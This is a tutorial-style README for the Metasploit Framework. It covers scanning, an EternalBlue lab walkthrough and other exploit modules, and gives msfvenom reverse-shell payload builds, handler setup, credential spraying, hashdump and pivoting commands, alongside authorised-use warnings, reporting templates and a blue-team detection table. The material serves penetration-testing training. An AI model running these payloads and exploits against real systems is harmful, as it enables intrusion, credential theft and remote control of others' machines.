





# Metasploit Framework

A structured guide to the Metasploit Framework, covering safe lab setup, module selection, vulnerability verification, session management, database-backed workflows, reporting, and a guided EternalBlue simulation based on an authorised TryHackMe-style environment.

> [!CAUTION]
> **Authorised use only.** Run Metasploit against systems you own, systems you hold explicit written permission to test, or deliberately vulnerable labs (TryHackMe, Hack The Box, Metasploitable, local host-only VMs). Testing third-party, public, workplace, or institutional systems without a signed scope is illegal. Nothing here changes that.

---

## Table of Contents

**Part I — Foundations**
- [1.1 When to reach for Metasploit](#11-when-to-reach-for-metasploit)
- [1.2 Architecture & terminology](#12-architecture--terminology)
- [1.3 The engagement at a glance](#13-the-engagement-at-a-glance)
- [1.4 Environment setup](#14-environment-setup)
- [1.5 Console workflow](#15-console-workflow)

**Part II — Discovery & Scanning**
- [2.1 Module discovery](#21-module-discovery)
- [2.2 Module evaluation checklist](#22-module-evaluation-checklist)
- [2.3 Options & the datastore](#23-options--the-datastore)
- [2.4 Workspaces & database](#24-workspaces--database)
- [2.5 Windows scanning & enumeration](#25-windows-scanning--enumeration)
- [2.6 Linux scanning & enumeration](#26-linux-scanning--enumeration)

**Part III — Exploitation**
- [3.1 Payloads explained](#31-payloads-explained)
- [3.2 MSFvenom](#32-msfvenom)
- [3.3 Handlers](#33-handlers)
- [3.4 Worked example: EternalBlue (Windows)](#34-worked-example-eternalblue-windows)
- [3.5 More Windows exploits](#35-more-windows-exploits)
- [3.6 Linux exploitation examples](#36-linux-exploitation-examples)

**Part IV — Post-Exploitation & Movement**
- [4.1 Meterpreter reference](#41-meterpreter-reference)
- [4.2 Post-exploitation](#42-post-exploitation)
- [4.3 Pivoting & routing](#43-pivoting--routing)
- [4.4 Session management](#44-session-management)

**Part V — Automation, Evasion & Reporting**
- [5.1 Automation & the RPC API](#51-automation--the-rpc-api)
- [5.2 Evasion: what actually matters](#52-evasion-what-actually-matters)
- [5.3 Logging, evidence & reporting](#53-logging-evidence--reporting)
- [5.4 Blue-team mapping](#54-blue-team-mapping)
- [5.5 Troubleshooting](#55-troubleshooting)
- [5.6 References](#56-references)

---

# Part I — Foundations

## 1.1 When to reach for Metasploit

- **Verification** — confirm a vulnerability is actually exploitable, not just scanner-reported.
- **Access** — gain an authorised foothold to demonstrate impact.
- **Post-exploitation** — enumerate, escalate, pivot within agreed scope.
- **Not** a replacement for manual testing or understanding *why* something works. Tooling, not a crutch.

## 1.2 Architecture & terminology

| Component | Purpose |
|---|---|
| Exploit | Leverages a specific flaw or unsafe condition. |
| Auxiliary | Scanning, enumeration, fuzzing, brute-force — no payload needed. |
| Payload | What runs post-exploitation (shell, Meterpreter, command). |
| Encoder | Byte transform for compatibility/bad-chars — **not** reliable AV evasion. |
| Post | Actions run against an existing session. |
| Session | Established interaction channel (shell or Meterpreter). |
| Job | A module/handler running in the background. |
| Workspace | Per-engagement separation of hosts, services, loot, evidence. |

**Key datastore options:** `RHOSTS` (target), `RPORT` (port), `LHOST` (your callback NIC/VPN), `LPORT` (listener), `SESSION` (post target), `PAYLOAD` / `TARGET`.

## 1.3 The engagement at a glance



How the core objects relate:



## 1.4 Environment setup

```bash
msfconsole --version          # confirm build
sudo msfdb init               # one-time: provision PostgreSQL + msf db
msfconsole -q                 # start quietly
```

```text
db_status                     # confirm DB connection
db_rebuild_cache              # refresh search index if stale
```

- A connected DB makes hosts/services/vulns/creds/loot queryable.
- Keep updated: `apt update && apt install metasploit-framework`, or `git pull` on source installs.

## 1.5 Console workflow

```text
search <filter>   find modules     info           module detail + refs
use <module>      load             show options   required/optional fields
show payloads     compatible       show targets   target profiles
set / setg        set option       unset / unsetg clear option
check             non-destructive check (if any)
run / exploit     execute          run -j         execute as background job
back / sessions   leave / list     jobs -K        kill all jobs
```

- `use 0` selects the first search hit. `setg LHOST tun0` once saves repetition.
- `grep <str> show options` filters long output.

---

# Part II — Discovery & Scanning

## 2.1 Module discovery

```text
search name:eternalblue
search cve:2017-0144
search type:exploit platform:windows smb rank:excellent
search type:auxiliary platform:linux ssh
```

| Filter | Values |
|---|---|
| `type:` | exploit, auxiliary, post, payload, encoder |
| `platform:` | windows, linux, unix, osx, android, php, multi |
| `rank:` | excellent, great, good, normal, average, low, manual |
| `cve:` / `name:` / `author:` / `path:` | targeted lookups |

- Prefer `excellent`/`great` ranks, but confirm with `info` before trusting.

## 2.2 Module evaluation checklist

- `info` — affected products, versions, references, side effects.
- Confirm arch/OS/service/patch level actually match the target.
- Check `rank` + DoS/stability warnings.
- `show targets` — pick the correct profile; "Automatic" can misfire.
- `check` if supported; else verify out-of-band (Nmap NSE).
- Memory-corruption exploits = crash risk. Snapshot first.

## 2.3 Options & the datastore

```text
show options / show advanced
set RHOSTS 10.10.10.0/24
set RHOSTS file:/path/targets.txt
setg LHOST tun0
set AutoRunScript post/windows/manage/migrate
```

- Accepts CIDR, ranges (`10.10.10.1-20`), and `file:` lists for `RHOSTS`.
- `hosts -R` / `services -p <port> -R` set `RHOSTS` straight from the DB.

## 2.4 Workspaces & database

```text
workspace -a client_x          # per-engagement separation
db_nmap -sV -sC -Pn <TARGET>   # scan into the DB
hosts / services / vulns       # query
creds / loot / notes           # harvested data
db_import scan.xml             # ingest nmap -oX
db_export -f xml export.xml    # back up
```

- One workspace per client/lab keeps evidence from bleeding across engagements.
- `analyze` suggests modules for discovered hosts.

## 2.5 Windows scanning & enumeration

**SMB (TCP 139/445)** — the Windows workhorse.

```text
use auxiliary/scanner/smb/smb_version        # OS build / SMB dialect
use auxiliary/scanner/smb/smb_ms17_010       # EternalBlue check
use auxiliary/scanner/smb/smb_enumshares     # shares (null / cred)
use auxiliary/scanner/smb/smb_enumusers      # user accounts
use auxiliary/scanner/smb/smb_login          # credential spray (authorised!)
set RHOSTS 10.10.10.0/24 ; run
```

**Other common Windows services:**

```text
# RDP (3389)
use auxiliary/scanner/rdp/rdp_scanner
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep   # check only, see 3.5

# WinRM (5985/5986)
use auxiliary/scanner/winrm/winrm_auth_methods
use auxiliary/scanner/winrm/winrm_login

# MSSQL (1433)
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login

# SMTP / NetBIOS / LDAP
use auxiliary/scanner/netbios/nbname
use auxiliary/gather/ldap_query
```

- Start with `smb_version` → it fingerprints OS build and tells you which exploits are even plausible.
- `smb_login` / `*_login` = credential testing. Only with authorisation and agreed lockout limits.

## 2.6 Linux scanning & enumeration

Classic service sweep (great against Metasploitable / HTB Linux boxes):

```text
# SSH (22)
use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_login            # cred test (authorised)
use auxiliary/scanner/ssh/ssh_enumusers

# FTP (21)
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/anonymous            # anon login check

# SMB / Samba (139/445)
use auxiliary/scanner/smb/smb_version          # also IDs Samba on Linux

# NFS (2049)
use auxiliary/scanner/nfs/nfsmount             # exported shares

# Web / misc
use auxiliary/scanner/http/http_version
use auxiliary/scanner/http/dir_scanner
```

```text
set RHOSTS 10.10.10.5
run
```

- Samba shows up under the SMB scanners too — don't assume 445 means Windows.
- Anonymous FTP + NFS exports are frequent quick wins on lab Linux hosts.

---

# Part III — Exploitation

## 3.1 Payloads explained

**Reverse vs bind:**



**Staged vs stageless:**



- **Reverse** beats egress-filtered networks; **bind** suits when you can reach an open port but the host can't dial out.
- **Staged** (`.../meterpreter/reverse_tcp`) is smaller; **stageless** (`..._reverse_tcp`) is more robust over flaky links/proxies.

## 3.2 MSFvenom

Standalone payload builder — authorised delivery inside scope only.

```bash
# windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o b.exe
# linux
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o s.elf
# web
msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f raw -o s.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=4444 -f raw -o s.jsp
# shellcode (exploit dev)
msfvenom -p windows/x64/exec CMD=calc.exe -f c -b '\x00\x0a\x0d'
```

- `-b` bad chars, `-e` encoder, `-i` iterations (compatibility, **not** guaranteed evasion).
- `-x template.exe -k` embeds into a real binary and keeps it running.

## 3.3 Handlers

```text
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST tun0 ; set LPORT 4444
set ExitOnSession false
run -j
```

- `PAYLOAD`/`LHOST`/`LPORT` must match the generated payload exactly.
- One-liner: `handler -H tun0 -P 4444 -p windows/x64/meterpreter/reverse_tcp`.

## 3.4 Worked example: EternalBlue (Windows)

Single end-to-end example against an **intentionally vulnerable training host** (e.g. TryHackMe *Blue*). Use the address your lab assigns.

```text
# 1. verify
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <LAB_TARGET> ; run

# 2. review before firing
use exploit/windows/smb/ms17_010_eternalblue
info ; show targets

# 3. configure
set RHOSTS <LAB_TARGET>
set LHOST tun0
set PAYLOAD windows/x64/meterpreter/reverse_tcp
show options

# 4. exploit (lab only)
run
sessions -i <ID>
sysinfo ; getuid ; background
```

> [!WARNING]
> Kernel memory-corruption exploit — it can **BSOD** the target. Snapshot first, expect to re-run, never aim it out of scope.

## 3.5 More Windows exploits

Reference-level — each demands `check` first, lab framing, and scope sign-off.

```text
# BlueKeep — RDP RCE (CVE-2019-0708). HIGH crash/BSOD risk; check, don't spray.
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

# SMBGhost — SMBv3 compression (CVE-2020-0796). Local/remote variants; unstable.
use exploit/windows/smb/cve_2020_0796_smbghost

# PsExec — auth'd code exec with valid creds/hashes (pass-the-hash)
use exploit/windows/smb/psexec
set SMBUser Administrator ; set SMBPass <pass-or-hash>

# WinRM — auth'd command exec
use exploit/windows/winrm/winrm_script_exec
```

- **PsExec** is the realistic lateral-movement path once you have creds/hashes — far more stable than memory exploits.
- Memory-corruption RCEs (BlueKeep/SMBGhost) crash boxes readily; treat them as last resort in anything you care about.

## 3.6 Linux exploitation examples

Classic, well-documented lab targets (Metasploitable 2 and similar). All patched for years — purely educational.

```text
# vsftpd 2.3.4 backdoor
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <LAB_TARGET> ; run

# Samba usermap_script (CVE-2007-2447)
use exploit/multi/samba/usermap_script

# UnrealIRCd 3.2.8.1 backdoor
use exploit/unix/irc/unreal_ircd_3281_backdoor

# distcc daemon command exec
use exploit/unix/misc/distcc_exec

# Shellshock via CGI (CVE-2014-6271)
use exploit/multi/http/apache_mod_cgi_bash_env_exec

# ProFTPD mod_copy
use exploit/unix/ftp/proftpd_modcopy_exec
```

- These return plain shells by default — upgrade with `sessions -u <ID>` for Meterpreter features.
- `search platform:linux type:exploit rank:excellent` surfaces more; always `info` first.

---

# Part IV — Post-Exploitation & Movement

## 4.1 Meterpreter reference

| Group | Commands |
|---|---|
| Core | `help`, `background`, `migrate <pid>`, `getpid`, `sessions` |
| System | `sysinfo`, `getuid`, `getprivs`, `ps`, `shell`, `execute -f <bin>` |
| Files | `pwd`, `ls`, `cat`, `download`, `upload`, `search -f *.kdbx` |
| Network | `ipconfig`, `route`, `arp`, `netstat`, `portfwd` |
| Priv (Win) | `getsystem`, `hashdump`, `load kiwi` |
| Extend | `load python`, `load powershell`, `load kiwi` |

- `migrate` into a stable, same-arch process early — a staged payload dies with its host process.

## 4.2 Post-exploitation

```text
run post/multi/recon/local_exploit_suggester    # privesc candidates (Win+Linux)
run post/windows/gather/enum_logged_on_users
getsystem                                        # Windows privesc
run post/multi/manage/shell_to_meterpreter       # upgrade a plain shell
hashdump                                          # needs SYSTEM (authorised)
```

- `local_exploit_suggester` is the fastest privesc route — then **read** the suggested module before firing.
- Credential/persistence actions carry real blast radius: confirm scope, log, revert.

## 4.3 Pivoting & routing



```text
run autoroute -s 10.10.20.0/24          # route via session
use auxiliary/scanner/portscan/tcp      # scan far side through pivot
portfwd add -l 3389 -p 3389 -r 10.10.20.10
use auxiliary/server/socks_proxy        # + proxychains for external tools
set VERSION 5 ; run -j
```

- Routes only *hop* traffic — but newly reachable hosts must still be in scope.
- Tear down routes (`route flush`) and proxies at engagement end.

## 4.4 Session management

```text
sessions -l / -v            list / verbose
sessions -i <ID>            interact
sessions -k <ID> / -K       kill one / all
sessions -u <ID>            upgrade shell -> meterpreter
sessions -c "<cmd>" -i <ID> run command in session
sessions -n <name> -i <ID>  label it
```

---

# Part V — Automation, Evasion & Reporting

## 5.1 Automation & the RPC API

**Resource scripts** — batch reviewed, in-scope commands:

```text
# recon.rc
workspace -a client_x
db_nmap -sV -Pn 10.10.10.5
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.10.10.5
run
```

```bash
msfconsole -q -r recon.rc
```

- `<ruby>...</ruby>` blocks add logic/loops; `makerc <file>` dumps your history to a replayable script.
- **RPC API:** `msfrpcd -U msf -P <pass> -p 55553 -S`, then drive from `pymetasploit3`. Never commit real creds/targets.

## 5.2 Evasion: what actually matters

- **Encoders ≠ AV bypass.** They fix bad-chars/compatibility; EDR flags the decoder stub and behaviour anyway.
- Static sigs catch default MSF artifacts; stageless + custom templates help vs *signatures*, not *behaviour*.
- EDR hooks API calls and memory behaviour — generic tricks lose. Honest reports document detection points instead of pretending they don't exist.

## 5.3 Logging, evidence & reporting

```text
spool engagement.log   # mirror console to file
spool off
```

- Screenshot session creation, `getuid`, key findings. `loot`/`creds`/`notes`/`db_export` are your trail.

**Finding template**

```text
Title:       MS17-010 RCE (legacy SMBv1)
Asset:       <host / IP>
Severity:    Critical
Evidence:    445 open; smb_ms17_010 likely-vulnerable; SYSTEM session
Impact:      Unauthenticated RCE, full compromise, lateral movement
Remediation: Patch MS17-010, disable SMBv1, restrict TCP/445, segment/retire
Validation:  Re-run smb_ms17_010 post-fix
```

## 5.4 Blue-team mapping

| Technique | Detection / control | ATT&CK |
|---|---|---|
| SMB exploit (EternalBlue) | MS17-010 IDS sig; alert on SMBv1; patch | T1210 |
| Reverse_tcp beacon | Egress filtering; new-outbound detection | T1071 |
| migrate / getsystem | Process-injection + token EDR (Sysmon 8/10) | T1055 |
| hashdump / kiwi | LSASS-access alerts; Credential Guard | T1003 |
| Pivoting / autoroute | Segmentation; east-west flow monitoring | T1090 |
| PsExec lateral move | Service-creation + 4624/4672 logon alerts | T1021 |

## 5.5 Troubleshooting

- **No session** — wrong `LHOST` NIC, firewalled `LPORT`, arch mismatch, or AV killed the stage.
- **`check` indeterminate** — verify out-of-band (Nmap NSE), don't fire blind.
- **DB disconnected** — `sudo msfdb init`, `db_status`, `db_rebuild_cache`.
- **Empty search** — `db_rebuild_cache`; re-check module path.
- **Pivot scan fails** — route not added, session dead, or target genuinely unreachable.

## 5.6 References

- Metasploit Docs — https://docs.metasploit.com/
- Database support — https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html
- Managing sessions — https://docs.metasploit.com/docs/using-metasploit/basics/managing-sessions.html
- Using a module appropriately — https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-metasploit-module-appropriately.html
- Source — https://github.com/rapid7/metasploit-framework
- MITRE ATT&CK — https://attack.mitre.org/
- TryHackMe *Blue* — https://tryhackme.com/room/blue
- Metasploitable 2 — https://docs.rapid7.com/metasploit/metasploitable-2/

---

## Repository Notice

This repository is intended for authorised penetration testers, cybersecurity students, instructors, and lab learners. Contributions should improve safety, accuracy, defensive understanding, documentation quality, or reproducibility within legal training environments.

**Learn responsibly, document carefully, and test only within scope.**
